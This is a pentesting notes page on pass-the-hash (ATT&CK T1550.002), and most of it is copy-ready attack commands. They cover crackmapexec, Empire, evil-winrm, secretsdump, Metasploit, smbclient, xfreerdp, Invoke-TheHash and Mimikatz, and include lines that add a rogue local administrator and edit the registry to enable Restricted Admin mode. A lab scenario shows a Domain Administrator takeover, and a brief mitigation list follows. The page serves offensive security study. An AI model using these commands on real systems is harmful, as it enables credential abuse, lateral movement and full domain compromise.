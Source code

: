 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

description: https://attack.mitre.org/techniques/T1550/002/

# Pass The Hash

**ATT\&CK ID:** [T1550.002](https://attack.mitre.org/techniques/T1550/002/)

**Permissions Required:** <mark style="color:green;">**Valid account hash**</mark>

#### Description

Adversaries may "pass the hash" using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's clear text password. This method bypasses standard authentication steps that require a clear text password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform Pass the Ticket attacks.

[\[Source\]](https://attack.mitre.org/techniques/T1550/002/)

## Techniques (Linux)

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -H <NTLM>
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'

# local account login
crackmapexec smb <IP> -u <User> -H <NTLM> --local-auth
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' --local-auth
```

![](../../../Assets/Pasted%20image%2020250619215540.png)

### Empire

```bash
usemodule lateral_movement/invoke_smbexec

# Parameters
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set ComputerName '10.10.10.100'
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Domain security.local
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Hash 58a478135a93ac3bf058a5ea0e8fdb71
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Username moe
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > execute
```

![](../../../Assets/Pasted%20image%2020250619215550.png)

### Evil-WinRM

```bash
evil-winrm -i <IP> -u <User> -H <NThash>
evil-winrm -i '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'
```

![](../../../Assets/Pasted%20image%2020250619215558.png)

### LDAP

```bash
secretsdump.py <User>@<IP> -hashes <Hash>
secretsdump.py moe@10.10.10.100 -hashes aad321b35b51404eeaad982b5b51404ee:b38ff50264b7458734d82c69794a4d8
```

![](../../../Assets/Pasted%20image%2020250619215610.png)

### Metasploit

```bash
use exploit/windows/smb/psexec

# Set hash as password
set smbpass "aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71"
```

![](../../../Assets/Pasted%20image%2020250619215617.png)

### smbclient

```bash
smbclient //<IP>/<Share> -U <User> --pw-nt-hash <Hash> -W <Domain>
smbclient '//10.0.0.100/IT' -U 'moe' --pw-nt-hash '58a478135a93ac3bf058a5ea0e8fdb71' -W 'security.local'
```

### xFreeRDP

This method requires "Restricted Admin Mode" enabled on the target system.

```bash
xfreerdp /v:10.10.10.100 /u:moe /pth:58a478135a93ac3bf058a5ea0e8fdb71
```

```bash
# Enable restricted admin mode, requires elevated permissions.
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Techniques (Windows)

### Invoke-TheHash

```powershell
# SMB Options
# Check SMB signing
Invoke-TheHash -Type SMBExec -Target '[IP]'
Invoke-TheHash -Type SMBExec -Target [CIDR]

# Check for command execution 
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# Pass hash to target and execute specified command 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]' 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

 # Enumerate SMB Shares / Users / Net Sessions 
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# WMI Options
# Check for command execution (WMI)
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target [CIDR]

 # Pass hash to target and execute specified command (WMI)
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

```

### Mimikatz

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

## Scenario

In the following scenario we have compromised a Windows 2019 member server SRV01.Security.local and escalated privileges to the local administrator account. We then dumped credentials from LSASS memory using `Mimikatz` and have obtained the NTLM password hash for the Domain Administrator "Moe".

#### LSASS Memory Credential Dumping

We are working as the local administrator on SRV01 so we are unable to perform administrative function on the Domain.

As we have the NTLM hash for the Domain Administrator "Moe" we are able to use Mimikatz to Pass-The-Hash to a new process such as PowerShell.

By doing so we are able to then use the newly spawned PowerShell process to perform domain administrative functions.

Under our local administrator account and as expected, we are unable to create a new domain user.

![](../../../Assets/Pasted%20image%2020250619215721.png)

Next we Pass-The-Hash for the Domain Administrator Moe:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

![](../../../Assets/Pasted%20image%2020250619215736.png)

Which opens a new PowerShell process for us. Where, we still notice we are running as the local administrator on the member server SRV01 however, we now have the ability to work as the Domain Administrator Moe and create a new domain user and add them to the "Domain Admins" group.

![](../../../Assets/Pasted%20image%2020250619215745.png)

## Mitigation

* Enable Windows Credential Guard
* Deploy Microsoft LAPS
* Disable LM/NTLM authentication in the environment
* Reduce amount of cached logon passwords stored
* Limit administrative users in the domain / locally.

### Further Reading

**Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft Techniques v2:** [Download](https://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating-Pass-the-Hash-Attacks-and-Other-Credential-Theft-Version-2.pdf)
